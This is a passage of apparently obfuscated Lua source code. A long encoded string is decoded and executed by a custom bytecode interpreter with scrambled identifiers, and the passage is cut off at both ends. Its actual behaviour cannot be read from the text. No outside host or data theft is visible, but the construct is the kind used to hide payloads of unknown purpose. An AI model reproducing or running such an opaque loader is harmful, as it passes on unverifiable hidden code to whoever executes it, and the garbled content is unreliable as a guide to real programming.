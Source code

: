 V. >zfeRR!Y_fY_e>V!g.#VM1_H.((#1q.g1g1_*1(b#efRV19fi_g>E._V_1(:1(.#1 %Y gg_YYYW_.qYf1g(r>Vqq.V. V_ Y%Re111fq_(_#1f!gRgR6Y(ff_e#q!Rg1V(1>me(>#(YYfqVe g!.VN#g1Yf_# 1gf_(>#>qegfVR .b(_fR  #!>.g#q11fR(g>>qeg>R. !g>ee#qfRf1_o _qhV R#Y.fq_g#>g(gqRf &JgRR>1!ie R!1Yf1V>RgYg((#Rqeg Vg   CcYeR#Vfe_.>>!fg_Ug1_)Y(e#>qgg#_<>(q1e(R Y.f__f>Rq!f__(1eB>(g#RY=g(_q>.qYe.RVYff((!>_qY.e(j1gIReJ#eYqg(_1 .!_efRR1!f_(Y>gq .gVV T8Veq#eY1gf_> f1V.!R_1Yf.( >gq#gKVV qW(e1R1Y>gf_R>q!_.YRe1 fg(##8qVgqV( 1f.) R2Y.f!__>YV%Y>fb(Y> (V#qq(g1V. >?feRe!Y(f1_e> !g. V^1VAq((#1q.g>&fVR!q.zRYYef q!.(Vq1qLb(qYR(.#>qfgR(Y _!1eeR Ygf#(F>Vq>.(V>1.B>(f#RY!g_6> e!>egRV1kf((qV!16..V#1f*ge!#(YYgf_ >qqR.&RV1qw!(1>gq>gY_V !4_eYRVY gf_#>oq(.qRe11fg(>>fqRg!Vg Yvge #gY#fO_V>R>R.1Vy1>ff(R#qq_g Ve  Efe#RJYVfq_(>1!..>Vq1RZ!(_# qeg Vg #!qeVRYY(f#_.>#!f.e_q1_jY(e_#qggR_= Vq1e(R Y.f>_f>Rq!._V#1eD#(g##YCgV_q (##e.R#Yff_(!>eqYEq_.1g:ReG_(Yqge_1>1!>.YVV1!f_(YVgq .fV# P!.eq#eY1g._> f!R.f.f1Yfg( R1q#g!VV Yi(eRRgY>gf_R##!_.1Re1VWf(##nqV!1V(  &.e>V!YRfq__>>!e. Rg1#nf(V#1q(g1V. >3f._VgY_f>_e>#!g.#VO (!e((#Rq.gRVf R!!e_VqYef>_g>(qr.(Vq#!jg(.##qf!__! (!Y.!R 1qIR(6>Vqqr.V11gu>.!_gY!g(_Y .! egR# qqf(q>.q1g!V>1flRe!RgYYgf_  g!#.URV 1Y!(1#!q>g!VR !J_e#_RY fj_#V!!V.YR(11m!(># qRgqV_ Ynee fqY#f#_V>>!(.1R.1>=g(R#Vq_g#Ve  Wge#VYYVf(_(>#!..>Rf1R!V(_#.qeg Vg #!WeVRgY(ff_.>(!f.RV!1_!g(eR!qgge_F V!qe(_!Y.ff_f#1q!.eVY1e 1(g#fY{f!_q>1!1e.t_Yf7!(!>fqY.eV 1gv.e,R!YqfY_1>>!>gfV11!Zq(Y#1q g1V# )!geqRqY1f1_>>#!R.!VV1Yf.( #1q#g#VV >>>e1#fY>!!_R>q!_.Y(_1 ff(##qqVgqV( 1Y(e>#fYRfY__>Y!e. (f1#{S(V#Yq(g1V. #7feRR!Y_fY_e> q1.#VI1V5qf.#1qfg>Vf R!!e_RY >f (!>#q!.VVq1(H1e #>YYgR_q _!YeeR  #f#(Y>Vq1.(V>1.W>.(#RYYg__Y e!RegR#1!fV(q>(q ..V>1f;Re!#_YYgg_>>C!#.2RV1Yfg(1>.q>...S#!p(ee#eY gg_ R1 #q1_.R(1>l1(eq(g!V_ Y!g.g#gYRfF__>q!(.1V.>vff(V#!qegYVe  QgfRRTYVfq_e>1!..>Rf1R3!(_#1Y g Vg #!!g!RqY(f1_((! _qVe(V>1ff_eq#xq1(Y>!!_.RV!1g5q((# qfge_  .m>e1##Y3gV_O#. _M#e>#.fVeq>_qY.eVY#11!61(# VYYf!Vf  !!e1#(1#f (1>e.fVe B&Veq#V>!qfgeV.!V..R_1Yfe(YR_>fq(g1VT1#!!#> _q.f_>qYe.YRe1 fegV(R##.(.eRg eD1#R#>YRf#_!>#!Ye(1a1.f_(Gq1qKg _! _Q>(.R#ge.n_Y#J.!V! !vq((#1q(5qg#Vf gSRe_RVf _g>#qy.VVq1(!Rf.##Y1gR_! _!!fY(fR1Y (V>Vqq.(V1R_*>(f#RY!g__Y eY g(R#19fV(q>(q#..V> YjReY#_YYge_V g1#.#RV11f((.>.q(.feR gB_e #eYegg_.>b1VguR(1>f.(R>fqVg!e_>gpee##gY(fo(!>q!(.>R.1>ff(_#!q(gYVeR>0ge#RIY_fq_(>1!..>Rf1RC!(_");local f=0;r.yofat_qR(function()r.vIlGUXaI()f=f+1 end)local function e(e,n)if n then return f end;f=e+f;end local n,f,h=t(0,t,e,s,r.OkitmiQD);local function g()local f,n=r.OkitmiQD(s,e(1,3),e(5,6)+2);e(2);return(n*256)+f;end;local c=true;local c=0 local function b()local e=f();local f=f();local l=1;local d=(n(f,1,20)*(2^32))+e;local e=n(f,21,31);local f=((-1)^n(f,32));if(e==0)then if(d==c)then return f*0;else e=1;l=0;end;elseif(e==2047)then return(d==0)and(f*(1/0))or(f*(0/0));end;return r.ClKMxdIt(f,e-1023)*(l+(d/(2^52)));end;local k=f;local function p(f)local n;if(not f)then f=k();if(f==0)then return'';end;end;n=r.EWJXtlTI(s,e(1,3),e(5,6)+f-1);e(f)local e=""for f=(1+c),#n do e=e..r.EWJXtlTI(n,f,f)end return e;end;local k=#r.kzxbXynK(a('\49.\48'))~=1 local e=f;local function fe(...)return{...},r.fcOTFLAR('#',...)end local function ne()local a={};local s={};local e={};local c={s,a,nil,e};local e=f()local t={}for d=1,e do local n=h();local f;if(n==3)then f=(h()~=#{});elseif(n==0)then local e=b();if k and r._vUCFsyw(r.kzxbXynK(e),'.(\48+)$')then e=r.iwxpLjqG(e);end f=e;elseif(n==1)then f=p();end;t[d]=f;end;for r=1,f()do local e=h();if(n(e,1,1)==0)then local o=n(e,2,3);local h=n(e,4,6);local e={g(),g(),nil,nil};if(o==0)then e[l]=g();e[_]=g();elseif(o==#{1})then e[l]=f();elseif(o==u[2])then e[l]=f()-(2^16)elseif(o==u[3])then e[l]=f()-(2^16)e[_]=g();end;if(n(h,1,1)==1)then e[d]=t[e[d]]end if(n(h,2,2)==1)then e[l]=t[e[l]]end if(n(h,3,3)==1)then e[_]=t[e[_]]end s[r]=e;end end;for e=1,f()do a[e-(#{1})]=ne();end;c[3]=h();return c;end;local function de(n,e,f)local d=e;local d=f;return a(r._vUCFsyw(r._vUCFsyw(({r.yofat_qR(n)})[2],e),f))end local function b(m,a,h)local function de(...)local g,k,y,ne,u,f,s,p,z,ee,c,n;local e=0;while-1<e do if 2<e then if 5<=e then if e>3 then repeat if e<6 then n=t(7);break;end;e=-2;until true;else e=-2;end else if 3~=e then ee=r.fcOTFLAR('#',...)-1;c={};else p={};z={...};end end else if 1>e then g=t(6,13,1,38,m);k=t(6,76,2,83,m);else if 0<e then for n=49,77 do if 1<e then f=-41;s=-1;break;end;y=t(6,89,3,48,m);u=fe ne=0;break;end;else y=t(6,89,3,48,m);u=fe ne=0;end end end e=e+1;end;for e=0,ee do if(e>=y)then p[e-y]=z[e+1];else n[e]=z[e+1];end;end;local y=ee-y+1 local e;local t;local function m(...)while true do end end while true do if f<-40 then f=f+42 end e=g[f];t=e[j];if t<=67 then if t<34 then if t<17 then if t<=7 then if t>3 then if 6>t then if 4~=t then for t=0,6 do if 3<=t then if 5>t then if 1~=t then for o=13,55 do if t~=4 then n[e[d]]=n[e[l]][e[_]];f=f+1;e=g[f];break;end;h[e[l]]=n[e[d]];f=f+1;e=g[f];break;end;else h[e[l]]=n[e[d]];f=f+1;e=g[f];end else if 6==t then h[e[l]]=n[e[d]];else n[e[d]]=(e[l]~=0);f=f+1;e=g[f];end end else if 1>t then n[e[d]]=n[e[l]][e[_]];f=f+1;e=g[f];else if t~=-2 then repeat if t~=1 then n[e[d]]=h[e[l]];f=f+1;e=g[f];break;end;h[e[l]]=n[e[d]];f=f+1;e=g[f];until true;else h[e[l]]=n[e[d]];f=f+1;e=g[f];end end end end else local g,r,h,_,o,t;local f=0;while f>-1 do if f>3 then if 5>=f then if f==4 then o=_[g[h]];else t=g[r];end else if f~=6 then f=-2;else n[t]=o;end end else if f<2 then if f==1 then r=d;else g=e;end else if f~=-2 then repeat if 2<f then _=n;break;end;h=l;until true;else _=n;end end end f=f+1 end end else if 7>t then for _=0,3 do if 1>=_ then if-4<_ then for t=30,97 do if 1>_ then n[e[d]]();f=f+1;e=g[f];break;end;n[e[d]]=n[e[l]];f=f+1;e=g[f];break;end;else n[e[d]]=n[e[l]];f=f+1;e=g[f];end else if-2<=_ then repeat if 2<_ then f=e[l];break;end;n[e[d]]();f=f+1;e=g[f];until true;else f=e[l];end end end else local a,s,o,r,t,_;for _=0,1 do if _>-1 then for c=15,57 do if _>0 then